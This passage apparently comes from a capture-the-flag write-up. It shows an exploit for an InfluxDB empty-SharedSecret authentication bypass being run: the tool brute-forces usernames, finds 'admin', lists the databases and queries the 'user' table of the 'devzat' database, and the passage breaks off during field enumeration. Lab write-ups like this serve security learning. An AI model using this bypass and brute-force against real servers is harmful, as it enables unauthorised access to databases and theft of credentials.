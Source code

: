 Running the exploit we see that is indeed vulnerable to an empty SharedSecret and we are able to access the database as the admin user.

```
$ python __main__.py

Insert ip host (default localhost):
Insert port (default 8086):
Insert influxdb user (wordlist path to bruteforce username): ../users

Start username bruteforce
[x] patrick
[x] catherine
[v] admin

Host vulnerable !!!
Databases list:

1) devzat
2) _internal

Insert database name (exit to close):
```

We select the `devzat` database and a query for existing tables results in a `user` table.

```
Insert database name (exit to close): devzat
[devzat] Insert query (exit to change db): SHOW MEASUREMENTS
{
    "results": [
        {
            "series": [
                {
                    "columns": [
                        "name"
                    ],
                    "name": "measurements",
                    "values": [
                        [
                            "user"
                        ]
                    ]
                }
            ],
            "statement_id": 0
        }
    ]
}
```

Next we enumerate the columns for the table.

```
[devzat] Insert query (exit to change db): SHOW FIELD KEYS
{
    "results": [
        {
            "series": [
                {
                    "columns": [
                        "fieldKey",
                        "fieldType"
                    ],
                    "name": "user",
                    "values": [
                        [
```